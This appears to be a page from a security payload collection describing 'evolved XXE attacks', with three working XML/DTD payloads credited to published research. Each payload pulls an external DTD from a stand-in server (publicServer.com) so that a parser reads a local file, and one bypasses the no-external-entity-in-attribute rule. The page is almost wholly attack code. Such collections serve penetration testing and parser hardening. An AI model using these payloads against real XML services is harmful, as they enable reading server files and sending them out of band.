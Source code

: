 This class of attacks vectors is called evolved XXE attacks and is used to (i) bypass restrictions of classic XXE attacks and (ii) for Out-of-Band attacks.  

### Bypassing Restrictions of XXE (Morgan, 2014)

```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data [  
<!ELEMENT data (#ANY)>  
<!ENTITY % start "<![CDATA[">  
<!ENTITY % goodies SYSTEM "file:///sys/power/image_size">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://publicServer.com/parameterEntity_core.dtd">  
%dtd;  
]>  
<data>&all;</data>
```
  
File stored on _http://publicServer.com/parameterEntity_core.dtd_  
  
```
<!ENTITY all '%start;%goodies;%end;'>
```
   
[Source](http://vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)  
  
### Bypassing Restrictions of XXE (Späth, 2015)

```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_doctype.dtd">  
<data>&all;</data>
```
  
File stored on _http://publicServer.com/parameterEntity_doctype.dtd_  
  
```xml
<!ELEMENT data (#PCDATA)>  
<!ENTITY % start "<![CDATA[">  
<!ENTITY % goodies SYSTEM "file:///sys/power/image_size">  
<!ENTITY % end "]]>">  
<!ENTITY all '%start;%goodies;%end;'>
```
  
### XXE by abusing Attribute Values (Yunusov, 2013)

This vector bypasses [WFC: No External Entity References].  
  
  
```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data [  
<!ENTITY % remote SYSTEM "http://publicServer.com/external_entity_attribute.dtd">  
%remote;  
]>  
<data attrib='&internal;'/>
```
  